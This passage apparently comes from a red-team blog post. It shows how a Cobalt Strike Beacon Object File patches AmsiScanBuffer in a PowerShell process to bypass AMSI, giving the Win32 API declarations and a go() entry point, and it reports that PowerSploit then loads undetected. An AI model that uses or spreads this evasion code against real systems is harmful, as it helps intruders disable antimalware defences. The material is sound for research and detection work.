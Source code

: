 <a href="https://xen0vas.github.io/assets/images/2024/04/amsiscanbufferaltered.png">
   <img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="https://xen0vas.github.io/assets/images/2024/04/amsiscanbufferaltered.png" width="750" height="400" alt="amsiscanbufferaltered"/>
</a>

As seen below the AMSI is successfully bypassed and we are able to import <code>PowerSploit</code> without detection

<a href="https://xen0vas.github.io/assets/images/2024/04/amsibypassed.png">
   <img style="display: block;margin-left: auto;margin-right: auto;border: 1px solid red;" src="https://xen0vas.github.io/assets/images/2024/04/amsibypassed.png" width="750" height="400" alt="amsibypassed"/>
</a>

<p align="justify">
As mentioned in the Dynamic Function Resolution ( DFR ) declaration section previously and CobaltStrike user guide <a href="https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_dynamic-func-resolution.htm?__hstc=173638140.6414503a994dbc53b910a88762106664.1709466014009.1711889263695.1711912941037.3&__hssc=173638140.1.1711912941037&__hsfp=2627675821&_gl=1*n0axoy*_ga*MTAzODc3NjkwNS4xNzA5NDY2MDEz*_ga_HNS2ZVG55R*MTcxMTkxMjkzOC40LjAuMTcxMTkxMjkzOC42MC4wLjA.">[17]</a> Dynamic Function Resolution is a convention to declare and call Win32 APIs as <code>LIBRARY$Function</code> and all the needed functions will be declared this way in a COFF object. 
</p>

```c++
DECLSPEC_IMPORT HANDLE WINAPI KERNEL32$OpenProcess(DWORD, BOOL, DWORD);
DECLSPEC_IMPORT FARPROC WINAPI KERNEL32$GetProcAddress(HMODULE, LPCSTR);
DECLSPEC_IMPORT HANDLE WINAPI KERNEL32$CreateToolhelp32Snapshot(DWORD,DWORD);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$Process32Next(HANDLE,LPPROCESSENTRY32);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$WriteProcessMemory(HANDLE ,LPVOID,LPCVOID,SIZE_T,SIZE_T);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$Process32First(HANDLE,LPPROCESSENTRY32);
DECLSPEC_IMPORT HMODULE WINAPI KERNEL32$LoadLibraryA(LPCSTR);
DECLSPEC_IMPORT BOOL WINAPI KERNEL32$CloseHandle(HANDLE);
DECLSPEC_IMPORT DWORD KERNEL32$GetCurrentProcessId(VOID);
WINBASEAPI int __cdecl MSVCRT$_stricmp(const char *string1,const char *string2);
WINBASEAPI int __cdecl MSVCRT$printf(const char * _Format,...);
```

Also, besides the Windows API declaration, the relevant <code>main()</code> function in COFF objects is the <code>go()</code> function implemented as follows 

```c++ 
void go(char* args, int len) {
	DWORD dwPid = 0;
	
	dwPid = GetPid("powershell.exe");
	if (dwPid == 0)
			dwPid = KERNEL32$GetCurrentProcessId();
	
	patchAmsiScanBuffer(dwPid);
}
```

<p align="justify">
The code above is very simple. First we get the PID of PowerShell and then we pass it in <code>patchAmsiScanBuffer</code> function which will perform the patching of <code>AmsiScanBuffer</code>
</p>
